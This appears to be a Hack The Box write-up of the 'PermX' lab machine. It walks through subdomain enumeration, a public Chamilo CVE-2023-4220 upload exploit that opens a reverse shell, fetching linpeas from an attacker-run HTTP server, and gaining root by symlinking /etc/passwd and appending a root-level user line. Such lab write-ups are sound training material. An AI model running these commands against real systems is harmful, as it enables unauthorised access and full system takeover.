

### Introduction
Hello👋 Today we're going to take a look at [PermX](./https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

### Enumeration
We'll start by scanning for open ports with Nmap.


We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.


So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```


Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```


And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.


### Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](./https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```


And we get a shell! Now we want to run [linpeas](./https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```



We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.


Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```


And we get our first flag!


### Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.

Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.


```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

